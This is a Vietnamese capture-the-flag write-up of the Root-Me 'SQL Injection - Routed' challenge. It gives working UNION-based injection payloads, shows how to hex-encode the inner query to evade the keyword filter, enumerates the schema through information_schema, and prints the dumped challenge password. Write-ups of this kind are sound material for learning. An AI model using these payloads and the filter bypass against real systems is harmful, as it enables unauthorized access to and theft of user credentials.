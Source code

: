 # Challenge: SQL Injection - Routed
## Người làm:   
    Nguyễn Ngọc Trưởng - 19522440
    Thời gian: 
## Link: 
    https://www.root-me.org/en/Challenges/Web-Server/SQL-Injection-Routed

- Về cơ bản, bài này có 2 form, không có truy vấn bài viết, 2 form này gồm 1 form đăng nhập và 1 form search
<p align="center"><img src="./images/5.1.png"></p>
<p align="center"><img src="./images/5.2.png"></p>

- Theo đà những bài trước mạnh dạng thử ngay với lỗi kết nối union, kiểm tra ngày bằng cách nhập ở ô input `abc'`, ta thấy nó có xuất hiện lỗi
<p align="center"><img src="./images/5.3.png"></p>

- Có khả năng bị lỗi union, ta thử với input là `abc' order by 3 -- -` 
<p align="center"><img src="./images/5.4.png"></p>

> Kết quả không khả quan cho lắm, server đã thực hiện lọc hay chặn từ khóa rồi,...

- Tra thông tin từ google với từ khóa `routed sql` ta được thấy được lỗi routed-sql-injection từ nhiều nguồn, ta tìm đại một bài đọc để hiểu hơn về nó. Về cơ bản thì nó sẽ dùng 2 truy vấn, đầu ra của truy vấn đầu tiên, truy vấn mà bạn chạy, được sử dụng làm đầu vào cho truy vấn thứ hai. Truy vấn thứ hai sẽ hiển thị kết quả cho bạn với tư cách là người dùng.
https://improsec.com/tech-blog/routed-sql-injection

- Thử với input `abc' union select 2 -- `
<p align="center"><img src="./images/5.5.png"></p>

- Thử với input `abc'  union select ' order by 3 -- -- ` --> Attack detected!

- Theo như bài đã đọc ta thử convert `' order by 3 -- ` sang mã hex khi đó ta được input `abc'  union select 0x27206f726465722062792033202d2d20-- `.
<p align="center"><img src="./images/5.6.png"></p>

- Khá ổn ko bị `Attack detected!` là ổn rồi, tiếp ta giảm xuống thành 3 
`abc'  union select 0x27206f726465722062792032202d2d20 -- `.
<p align="center"><img src="./images/5.7.png"></p>

- Dựa vào hình thứ 3 ta thấy server đang dùng cơ sở dữ liệu `MariaDB` nên câu lệnh sử dụng cũng khác so với những bài trước, nội dung cần chèn để lấy được thông tin các bảng lúc này sẽ là `abc' union select ' union select 1,table_name from information_schema.tables where table_schema = database() -- -- `. convert sang dạng hex lúc này sẽ là `abc' union select 0x2720756e696f6e2073656c65637420312c7461626c655f6e616d652066726f6d20696e666f726d6174696f6e5f736368656d612e7461626c6573207768657265207461626c655f736368656d61203d2064617461626173652829202d2d20-- `.
<p align="center"><img src="./images/5.8.png"></p>

- Bộ dữ liệu chỉ có 1 bảng là users
- Lấy ra các cột trong bảng users, `abc' union select ' union select 1,column_name from information_schema.columns where table_name = 'users' -- -- `= `abc' union select 0x2720756e696f6e2073656c65637420312c636f6c756d6e5f6e616d652066726f6d20696e666f726d6174696f6e5f736368656d612e636f6c756d6e73207768657265207461626c655f6e616d65203d2027757365727327202d2d20-- `. 
<p align="center"><img src="./images/5.9.png"></p>

Vì màn hình chỉ cho ra 1 output do vậy ta chỉ nhận 1 giá trị là `id` nên ta cần thủ thuật để lấy những trường khác
- Lấy ra trường thứ 2 của bảng users, `' union select 1,column_name from information_schema.columns where table_name = 'users' and column_name!='id' -- ` --> login
<p align="center"><img src="./images/5.10.png"></p>

- Lấy ra trường thứ 3 của bảng users, `' union select 1,column_name from information_schema.columns where table_name = 'users' and column_name!='id' and column_name!='login'-- ` -->password
<p align="center"><img src="./images/5.11.png"></p>

> Như vậy ta chỉ cần 2 trường này mà thôi login và password...

- Lấy ra username password từ bảng users, `abc' union select ' union select login,password from users-- -- `. = `abc' union select 0x2720756e696f6e2073656c656374206c6f67696e2c70617373776f72642066726f6d2075736572732d2d20-- `
<p align="center"><img src="./images/5.12.png"></p>

## Kết quả password là `qs89QdAs9A`
